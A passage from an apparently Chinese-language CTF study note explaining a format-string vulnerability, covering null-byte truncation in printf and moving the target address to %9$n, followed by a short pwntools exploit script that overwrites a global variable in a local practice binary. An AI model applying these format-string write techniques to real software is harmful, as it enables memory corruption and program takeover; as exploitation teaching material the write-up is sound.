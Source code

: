 然后就会往num写入8(p64打印8字节)

但是有个严重的问题,就是printf是'\x00'截断打印的,遇到'\x00'就停止了,num_addr由于不满8字节,所以p64会自动添加'\x00',这就导致后面的东西根本不会被解析,在p64(num_addr)处就结束了,这不是我们想要的,解决方法就是将p64(num_addr)后移一个栈帧,这时候地址就是printf的第10个参数了,%8$n要改为%9$n,同时要将%9$n那个栈帧给填满8个字节("%9$n"才4个字节,要填充4个字节,要不num_addr就会出现偏差,%n就识别不来),这时候写入num为0(因为%n前面没有任何打印)

![image-20220330221913912](自救指南.assets/image-20220330221913912.png)

#### Exploit

```py
from pwn import* 
o=process('./format_writein')
num = 0x601064
payload = '%9$naaaa' + p64(num)
o.sendline(payload)
o.sendline('0')
o.interactive()
```

![image-20220330222039416](自救指南.assets/image-20220330222039416.png)

还是gdb来调试看一下,把断点设置在格式化字符串漏洞处
